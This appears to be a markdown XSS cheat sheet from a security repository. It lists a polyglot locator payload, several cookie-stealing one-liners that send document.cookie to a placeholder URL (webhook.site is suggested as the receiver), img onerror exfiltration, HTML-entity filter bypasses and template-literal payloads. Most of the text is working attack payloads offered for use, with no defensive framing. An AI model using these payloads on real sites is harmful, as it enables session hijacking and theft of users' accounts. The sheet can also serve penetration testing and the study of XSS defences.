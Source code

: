 # General Resources
[Webhook.site](https://webhook.site/) - Basically required to steal cookies without Burp Collaborator
[Portswigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) - XSS payload search (useful for making Burp Intruder payloads)

# XSS Locator
Paste this into any area you suspect is vulnerable to XSS
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

# Stealing Cookies
Some quick payloads for stealing cookies ``o(￣▽￣)ｄ``
## General One-Liner (Use this one first)
```javascript
<script>var i=new Image;i.src="[URL]/?"+document.cookie;</script>
```
**Example usage of above:**
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```
## Using ``<img>`` Tag
```javascript
<img src=x onerror="this.src='[URL]/?'+document.cookie;this.removeAttribute('onerror');"/>
```

# Filter Bypasses
## HTML Entities
```javascript
<IMG SRC=javascript:alert(&quot;1&quot;)>
```
For a complete list of HTML entities, go [Here](Web/Encodings/HTML.md)
## No parentheses
```
```


# AngularJS
[PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# XSS Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

